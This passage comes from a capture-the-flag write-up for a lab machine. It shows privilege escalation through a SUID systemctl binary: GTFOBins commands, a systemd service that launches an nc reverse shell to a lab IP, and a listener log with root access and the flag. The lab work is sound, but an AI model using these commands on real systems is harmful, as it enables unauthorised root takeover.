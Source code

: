 Or if you had more experience

you would be surprised by the presence of `/bin/systemctl` in that list

you should also make yourself more familiar with [Gtfobbins](https://gtfobins.github.io/)

They specialized in common privilege escalation vectors and binaries like systemctl

Those are the commands they proposed for this one

```
sudo install -m =xs $(which systemctl) .

TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
./systemctl link $TF
./systemctl enable --now $TF
```

But as we are not script kiddies (ugh)...we nderstand we cannot just copy-paste it

We understand what it does and modify it accordingly

First we need a better shell (with TTY)

```
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@vulnuniversity:/home/bill$ 

```
Then we paste this instead for a reverse shell

```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.226.203 4444 >/tmp/f"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```
You might need to restart systemctl again using

`/bin/systemctl enable --now $TF`

you will then almost immediately get a root shell on your listener

you prepared a listener right?

if so, you deserve that flag!

```
└──╼ $nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.0.2.15] from (UNKNOWN) [10.0.2.2] 35674
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
root.txt
# cat root.txt
root_flag_for_100_percent
```
